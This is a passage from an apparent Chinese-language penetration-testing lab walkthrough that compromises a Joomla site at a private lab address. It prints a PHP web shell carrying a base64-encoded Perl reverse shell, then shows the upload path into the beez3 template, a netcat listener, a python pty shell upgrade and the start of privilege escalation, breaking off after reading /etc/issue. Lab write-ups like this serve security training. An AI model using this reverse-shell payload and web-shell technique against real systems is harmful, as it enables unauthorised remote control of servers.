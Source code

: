 ```php
$back_connect="IyEvdXNyL2Jpbi9wZXJsDQp1c2UgU29ja2V0Ow0KJGNtZD0gImx5bngiOw0KJHN5c3RlbT0gJ2VjaG8gImB1bmFtZSAtYWAiO2Vj".
"aG8gImBpZGAiOy9iaW4vc2gnOw0KJDA9JGNtZDsNCiR0YXJnZXQ9JEFSR1ZbMF07DQokcG9ydD0kQVJHVlsxXTsNCiRpYWRkcj1pbmV0X2F0b24oJHR".
"hcmdldCkgfHwgZGllKCJFcnJvcjogJCFcbiIpOw0KJHBhZGRyPXNvY2thZGRyX2luKCRwb3J0LCAkaWFkZHIpIHx8IGRpZSgiRXJyb3I6ICQhXG4iKT".
"sNCiRwcm90bz1nZXRwcm90b2J5bmFtZSgndGNwJyk7DQpzb2NrZXQoU09DS0VULCBQRl9JTkVULCBTT0NLX1NUUkVBTSwgJHByb3RvKSB8fCBkaWUoI".
"kVycm9yOiAkIVxuIik7DQpjb25uZWN0KFNPQ0tFVCwgJHBhZGRyKSB8fCBkaWUoIkVycm9yOiAkIVxuIik7DQpvcGVuKFNURElOLCAiPiZTT0NLRVQi".
"KTsNCm9wZW4oU1RET1VULCAiPiZTT0NLRVQiKTsNCm9wZW4oU1RERVJSLCAiPiZTT0NLRVQiKTsNCnN5c3RlbSgkc3lzdGVtKTsNCmNsb3NlKFNUREl".
"OKTsNCmNsb3NlKFNURE9VVCk7DQpjbG9zZShTVERFUlIpOw==";
cf('/tmp/.bc',$back_connect);
$res = execute(which('perl')." /tmp/.bc $yourip $yourport &");
?> 
```



保存就上传好啦，再根据joomla的特性，模块会单独放在一个文件夹里/templates/，而beez3模块就在/templates/beez3/里面，刚才创建的shell路径为

```shell
http://192.168.80.134/templates/beez3/shell.php
```

用kali来监听

```shell
nc -lvvp 4444
```

![image-20230806124347455](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806124347455.png)

浏览器访问shell.php的地址`http://192.168.80.134/templates/beez3/shell.php`

![image-20230806125907044](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806125907044.png)

反弹成功！！！

![image-20230806125929331](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806125929331.png)

##### Get交互shell

```python
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

![image-20230806130710303](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806130710303.png)

 交互shell获取成功，但是还不是root权限

#### 提权

查看操作系统版本信息

```shell
tac /etc/issue
```

